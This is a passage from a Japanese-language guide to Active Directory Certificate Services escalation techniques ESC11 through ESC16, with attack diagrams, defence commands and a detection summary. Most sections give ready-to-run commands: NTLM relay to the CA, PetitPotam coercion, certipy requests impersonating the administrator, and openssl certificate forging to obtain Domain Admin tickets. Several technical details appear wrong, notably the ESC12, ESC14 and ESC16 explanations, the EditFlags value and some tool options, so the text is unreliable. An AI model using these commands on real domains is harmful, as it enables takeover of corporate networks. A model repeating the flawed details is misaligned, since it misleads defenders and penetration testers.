    RPC->>R: 証明書を返す (PFX)

    R->>A: administrator.pfx を保存

    Note over A: 認証フェーズ

    A->>DC: certipy auth -pfx administrator.pfx
    DC->>A: Domain Admin TGT

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. ntlmrelayx のセットアップ (RPC モード)**

```bash
# Impacket の ntlmrelayx で RPC インターフェースを対象にする
impacket-ntlmrelayx -t rpc://ca01.corp.local -rpc-mode TSCH -smb2support --adcs --template User

# または Certipy のリレー機能を使用
certipy relay -ca ca01.corp.local
```

**2. 強制認証攻撃の実行**

```bash
# PetitPotam で DC の NTLM を強制
python3 PetitPotam.py -u john -p 'Password123!' -d corp.local 10.10.10.50 10.10.10.100

# 10.10.10.50 = 攻撃者のリレーサーバー
# 10.10.10.100 = DC01
```

**3. 証明書の取得と認証**

```bash
# リレー成功時に証明書が自動的に取得される
# 出力: dc01.pfx

# 認証
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.100
```

**4. 防御策**

```powershell
# RPC 経由の NTLM 認証を無効化 (GPO)
# コンピューターの構成 > ポリシー > Windows の設定 > セキュリティの設定 > ローカル ポリシー > セキュリティ オプション
# "ネットワーク セキュリティ: NTLM を制限する: リモート サーバーへの送信 NTLM トラフィック" = "すべて拒否"

# または EPA (Extended Protection for Authentication) を有効化
```

---

## ESC12: YubiHSM2 の脆弱性

### 攻撃条件

- ✅ AD CS が **YubiHSM2** ハードウェアセキュリティモジュールを使用している
- ✅ YubiHSM2 に既知の脆弱性がある (特定のファームウェアバージョン)
- ✅ 攻撃者が HSM にアクセスできる

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant HSM as YubiHSM2
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over HSM: YubiHSM2 に脆弱性あり<br/>(例: CVE-XXXX-XXXX)

    A->>HSM: 脆弱性スキャン
    HSM->>A: 脆弱なファームウェアを検出

    Note over A: エクスプロイトを実行

    A->>HSM: YubiHSM2 エクスプロイト<br/>(ファームウェアの脆弱性)

    HSM->>HSM: マスターキーへの<br/>不正アクセス

    HSM->>A: HSM マスターキーを取得

    Note over A: CA 秘密鍵を抽出

    A->>CA: CA 秘密鍵を抽出
    Note over A: HSM から CA 署名鍵を取得

    CA->>A: CA 秘密鍵 (RSA/ECC)

    Note over A: 任意の証明書に署名可能

    A->>A: 偽造証明書を作成
    Note over A: Subject: Administrator<br/>Issuer: corp-DC01-CA

    A->>A: CA 秘密鍵で署名

    Note over A: 偽造証明書で認証

    A->>DC: 偽造証明書を提示
    DC->>DC: CA 公開鍵で検証
    Note over DC: 署名が有効<br/>(CA 秘密鍵で署名されている)

    DC->>A: Administrator TGT を発行

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**注意**: ESC12 は非常に特定的であり、特定の YubiHSM2 の脆弱性に依存します。実際の攻撃コマンドは CVE によって異なります。

**1. YubiHSM2 の検出**

```bash
# CA サーバーで YubiHSM2 の使用を確認
certutil -store my

# または
Get-ChildItem Cert:\LocalMachine\My | Where-Object {$_.PrivateKey.CspKeyContainerInfo.ProviderName -like "*Yubi*"}
```

**2. 脆弱性の確認 (仮の例)**

```bash
# YubiHSM2 のファームウェアバージョンを確認
# (実際のツールは CVE によって異なる)

# 脆弱なバージョンが見つかった場合はエクスプロイトを実行
```

**3. CA 秘密鍵の抽出 (概念的)**

```bash
# HSM から秘密鍵を抽出 (仮の例)
# 実際の方法は脆弱性によって異なる

# 抽出した秘密鍵で証明書に署名
openssl req -new -x509 -key ca_private_key.pem -out fake_cert.pem -days 365 -subj "/CN=Administrator"
```

**4. 偽造証明書で認証**

```bash
# 偽造証明書を PFX に変換
openssl pkcs12 -export -out fake_admin.pfx -inkey user_key.pem -in fake_cert.pem

# 認証
certipy auth -pfx fake_admin.pfx -dc-ip 10.10.10.100
```

**5. 防御策**

```powershell
# YubiHSM2 のファームウェアを最新版に更新
# YubiHSM2 のアクセス制御を強化
# HSM のログ監視を強化
```

---

## ESC13: 特権グループにリンクされた Issuance Policy

### 攻撃条件

- ✅ 証明書テンプレートに **Issuance Policy** OID が設定されている
- ✅ その OID が **特権グループ** (Domain Admins、Enterprise Admins 等) にリンクされている
- ✅ 低権限ユーザーがそのテンプレートに登録できる

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as "攻撃者 (低権限ユーザー)"
    participant T as 証明書テンプレート
    participant CA as 証明機関
    participant DC as ドメインコントローラー
    participant AD as Active Directory

    Note over T: Issuance Policy OID:<br/>1.2.3.4.5.6.7.8.9<br/>→ Domain Admins にリンク

    Note over AD: msDS-OIDToGroupLink:<br/>OID 1.2.3.4.5.6.7.8.9 =<br/>CN=Domain Admins,CN=Users,DC=corp,DC=local

    A->>T: 証明書リクエスト
    Note over A: 低権限ユーザーでも<br/>登録できるテンプレート

    T->>CA: 証明書リクエスト

    CA->>A: Issuance Policy 付きの証明書を発行
    Note over CA: 証明書に OID 1.2.3.4.5.6.7.8.9 が含まれる

    Note over A: 認証フェーズ

    A->>DC: 証明書で認証
    Note over A: PKINIT / Schannel

    DC->>DC: 証明書の Issuance Policy を確認
    Note over DC: OID: 1.2.3.4.5.6.7.8.9

    DC->>AD: OID マッピングを確認
    AD->>DC: OID → Domain Admins

    DC->>DC: グループメンバーシップを付与
    Note over DC: 証明書ベースの<br/>グループメンバーシップ

    DC->>A: Domain Admins として TGT を発行

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. Issuance Policy の確認**

```powershell
# AD 内の OID とグループのリンクを確認
Get-ADObject -Filter {objectClass -eq "msPKI-Enterprise-Oid"} -SearchBase "CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties *

# msDS-OIDToGroupLink 属性を確認
```

**2. 脆弱性スキャン**

```bash
# Certipy で ESC13 を検出
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -A 20 "ESC13"
```

**3. 証明書リクエスト**

```bash
# Issuance Policy テンプレートから証明書をリクエスト
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'ESC13Template'

# 出力: john.pfx (Issuance Policy 付き)
```

**4. 認証**

```bash
# 証明書で認証
certipy auth -pfx john.pfx -dc-ip 10.10.10.100

# Issuance Policy 経由で Domain Admins として認証
```

**5. OID リンクの確認 (詳細)**

```powershell
# PowerShell で確認
$oid = Get-ADObject -Filter {cn -eq "1.2.3.4.5.6.7.8.9"} -SearchBase "CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties *

$oid.'msDS-OIDToGroupLink'
# 出力: CN=Domain Admins,CN=Users,DC=corp,DC=local
```

**6. 防御策**

```powershell
# 不要な OID リンクを削除
Set-ADObject -Identity "CN=1.2.3.4.5.6.7.8.9,CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Clear msDS-OIDToGroupLink

# または Issuance Policy を無効化
```

---

## ESC14: 弱い明示的証明書マッピング

### 攻撃条件

- ✅ **StrongCertificateBindingEnforcement** が **0** (無効) または **1** (部分的) に設定されている
- ✅ 弱い証明書マッピングが許可されている

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over DC: 設定:<br/>StrongCertificateBindingEnforcement = 0 または 1<br/>(弱い証明書マッピング)

    A->>CA: 証明書リクエスト
    Note over A: SAN UPN:<br/>Administrator@corp.local

    CA->>A: 証明書を発行

    Note over A: 認証フェーズ

    A->>DC: 証明書で認証<br/>(PKINIT)

    DC->>DC: 証明書マッピングを処理
    Note over DC: StrongCertificateBindingEnforcement<br/>= 0 または 1<br/>→ SID 検証が不十分

    DC->>DC: UPN のみで認証
    Note over DC: SAN UPN:<br/>Administrator@corp.local

    DC->>DC: SID 検証をスキップ
    Note over DC: 弱いマッピング

    DC->>A: Administrator として認証成功

    A->>DC: TGT リクエスト
    DC->>A: Administrator TGT を発行

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. StrongCertificateBindingEnforcement の確認**

```powershell
# DC のレジストリを確認
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement"

# 値の意味:
# 0 = 無効 (最も脆弱)
# 1 = 互換モード (部分的)
# 2 = 完全強制 (安全)
```

**2. 証明書の取得 (別の ESC を使用)**

```bash
# ESC1 等で Administrator の証明書を取得
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'
```

**3. 認証**

```bash
# 弱いマッピングで認証
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# UPN のみでマッピングされ、SID 検証はスキップ
```

**4. 対策 (防御側)**

```powershell
# 強固な証明書バインドを強制
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement" -Value 2

# KDC サービスを再起動
Restart-Service kdc
```

**5. Windows アップデートの適用**

```powershell
# KB5014754 以降のアップデートを適用
# StrongCertificateBindingEnforcement のデフォルトが強化される
```

---

## ESC15: V1 テンプレートへの任意 Application Policy 注入 (CVE-2024-49019 "EKUwu")

### 攻撃条件

- ✅ 証明書テンプレートが **スキーマバージョン 1** (レガシー形式) である
- ✅ テンプレートに **Application Policy** が定義されていない
- ✅ 低権限ユーザーが **Enroll** 権限を持っている

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant V1 as "V1 証明書テンプレート"
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over V1: スキーマバージョン 1<br/>(msPKI-Template-Schema-Version = 1)
    Note over V1: Application Policy が未定義

    A->>V1: テンプレートを調査
    V1->>A: V1 テンプレートを検出<br/>Application Policy なし

    Note over A: 証明書リクエストを構築

    A->>A: CSR に任意の<br/>Application Policy を追加
    Note over A: 例:<br/>- Client Authentication (1.3.6.1.5.5.7.3.2)<br/>- Smart Card Logon (1.3.6.1.4.1.311.20.2.2)

    A->>CA: 証明書登録リクエスト<br/>(Application Policy 付き CSR)

    CA->>CA: V1 テンプレートを検証
    Note over CA: Application Policy の<br/>検証が不十分

    CA->>CA: CSR の Application Policy を<br/>そのまま受け入れる

    CA->>A: 任意の Application Policy 付き証明書を発行
    Note over CA: Client Authentication EKU<br/>Smart Card Logon EKU 等

    Note over A: 認証フェーズ

    A->>DC: 証明書で認証<br/>(Client Authentication として使用)

    DC->>DC: EKU を確認:<br/>Client Authentication
    Note over DC: 証明書に有効な EKU あり

    DC->>A: TGT を発行

    Note over A: 認証成功<br/>(本来は許可されていない用途で使用)
```

### 攻撃コマンド

**1. V1 テンプレートの検出**

```powershell
# PowerShell で V1 テンプレートを検索
Get-ADObject -Filter {objectClass -eq "pKICertificateTemplate"} -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties msPKI-Template-Schema-Version | Where-Object {$_.'msPKI-Template-Schema-Version' -eq 1}
```

```bash
# Certipy で V1 テンプレートを検出
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -B 5 "Schema Version.*: 1"
```

**2. Application Policy の注入 (OpenSSL)**

```bash
# OpenSSL で CSR を作成して Application Policy を追加

# openssl.cnf に追記:
cat >> openssl.cnf << EOF
[v3_req]
extendedKeyUsage = clientAuth, smartcardLogon
EOF

# CSR を作成
openssl req -new -key user.key -out user.csr -config openssl.cnf -extensions v3_req -subj "/CN=john"

# CSR を Base64 エンコード
cat user.csr | base64 -w 0
```

**3. Certipy での攻撃 (直接サポートされている場合)**

```bash
# Certipy で V1 テンプレートに任意の EKU を注入
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'V1Template' -key-usage 'clientAuth,smartcardLogon'

# または
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'V1Template' -upn 'administrator@corp.local' -key-usage 'clientAuth'
```

**4. 手動での CSR 送信 (Windows)**

```powershell
# certreq で CSR を送信
certreq -submit -config "DC01\corp-DC01-CA" -attrib "CertificateTemplate:V1Template" user.csr

# 証明書を取得
certreq -retrieve [RequestId] user.cer
```

**5. 認証**

```bash
# 取得した証明書で認証
certipy auth -pfx user.pfx -dc-ip 10.10.10.100
```

**6. 防御策**

```powershell
# V1 テンプレートを V2/V3/V4 にアップグレード
# または V1 テンプレートを無効化

# テンプレートのスキーマバージョンを確認
Get-ADObject -Filter {cn -eq "V1Template"} -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties msPKI-Template-Schema-Version

# V1 テンプレートを無効化
Set-ADObject -Identity "CN=V1Template,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Replace @{flags=131072}
```

---

## ESC16: CA での Security Extension の全体的な無効化

### 攻撃条件

- ✅ CA に **EDITF_ATTRIBUTEENDDATE** フラグが設定されている
- ✅ これにより**すべての証明書**の Security Extension が無効化される
- ✅ 弱い証明書マッピングが有効になっている

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant CA as 証明機関
    participant T as 任意のテンプレート
    participant DC as ドメインコントローラー

    Note over CA: CA レジストリ設定:<br/>EditFlags に<br/>EDITF_ATTRIBUTEENDDATE が含まれる

    Note over CA: この設定により<br/>すべての証明書の<br/>Security Extension が無効化される

    A->>T: 任意のテンプレートから証明書をリクエスト
    Note over A: SAN UPN:<br/>Administrator@corp.local

    T->>CA: 証明書リクエスト

    CA->>CA: EDITF_ATTRIBUTEENDDATE を確認
    Note over CA: フラグが有効<br/>→ Security Extension を生成しない

    CA->>A: 証明書を発行<br/>(Security Extension なし)

    Note over A: すべての証明書で<br/>SID 検証がスキップされる

    A->>DC: 証明書で認証

    DC->>DC: Security Extension を確認
    Note over DC: Security Extension なし<br/>→ SID 検証をスキップ

    DC->>DC: UPN のみで認証
    Note over DC: 弱い証明書マッピング

    DC->>A: Administrator として認証成功

    A->>DC: TGT リクエスト
    DC->>A: Administrator TGT を発行

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. CA 設定の確認**

```powershell
# Windows: CA の EditFlags を確認
certutil -config "DC01\corp-DC01-CA" -getreg policy\EditFlags

# 出力に EDITF_ATTRIBUTEENDDATE が含まれるか確認
```

```bash
# Linux: Certipy で確認
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -i "EDITF_ATTRIBUTEENDDATE"
```

**2. 証明書リクエスト**

```bash
# 任意のテンプレートで Administrator の証明書をリクエスト
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'User' -upn 'administrator@corp.local'

# Security Extension なしで証明書が発行される
```

**3. 認証**

```bash
# 弱いマッピングで認証
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# UPN のみでマッピング
```

**4. CA 設定の確認 (レジストリ直接)**

```powershell
# CA サーバーのレジストリを確認
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\corp-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy" -Name "EditFlags"

# EditFlags の値を確認
# EDITF_ATTRIBUTEENDDATE = 0x00004000
```

**5. 対策 (防御側)**

```powershell
# EDITF_ATTRIBUTEENDDATE を無効化
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags -EDITF_ATTRIBUTEENDDATE

# CA サービスを再起動
Restart-Service certsvc
```

**6. レジストリから直接修正**

```powershell
# EditFlags から 0x00004000 を削除
$path = "HKLM:\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\corp-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy"
$currentFlags = (Get-ItemProperty -Path $path -Name "EditFlags").EditFlags
$newFlags = $currentFlags -band (-bnot 0x00004000)
Set-ItemProperty -Path $path -Name "EditFlags" -Value $newFlags

Restart-Service certsvc
```

---

## まとめ: ESC 攻撃の検出と防御

### 一般的な検出方法


```mermaid
sequenceDiagram
    participant A as セキュリティ監査者
    participant Tools as Certify / Certipy
    participant AD as Active Directory
    participant CA as 証明機関
    participant Logs as イベントログ

    Note over A: フェーズ 1: 脆弱性スキャン

    A->>Tools: certify find /vulnerable<br/>または<br/>certipy find -vulnerable

    Tools->>AD: AD CS 設定を列挙
    Tools->>CA: CA 設定を確認

    AD->>Tools: テンプレート情報
    CA->>Tools: CA 設定情報

    Tools->>A: 脆弱性レポート<br/>(ESC1-16)

    Note over A: フェーズ 2: ログ監視

    A->>Logs: イベントログを確認
    Note over A: イベント ID:<br/>- 4886: 証明書リクエストを受信<br/>- 4887: 証明書を発行<br/>- 4888: 証明書リクエストを拒否

    Logs->>A: 異常な証明書リクエストを検出

    Note over A: フェーズ 3: BloodHound 分析

    A->>Tools: certipy find -bloodhound
    Tools->>A: BloodHound JSON データ

    A->>A: BloodHound で<br/>攻撃パスを可視化
```

### 防御策の実装

**1. テンプレート設定の強化**

```powershell
# CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT を無効化
Set-ADObject -Identity "CN=Template,CN=Certificate Templates,..." -Replace @{'msPKI-Certificate-Name-Flag'=0}

# 不要な EKU を削除
Set-ADObject -Identity "CN=Template,CN=Certificate Templates,..." -Clear pKIExtendedKeyUsage
```

**2. CA 設定の強化**

```powershell
# EDITF_ATTRIBUTESUBJECTALTNAME2 を無効化
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2

# 強固な証明書バインドを強制
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement" -Value 2
```

**3. Web Enrollment の保護**

```powershell
# HTTPS のみを強制
# HTTP を無効化
```

**4. 定期的な監査**

```powershell
# 週次の脆弱性スキャン
.\Certify.exe find /vulnerable

# 月次の権限監査
Get-DomainObjectAcl -Identity "CN=Certificate Templates,..." | Export-Csv audit.csv
```
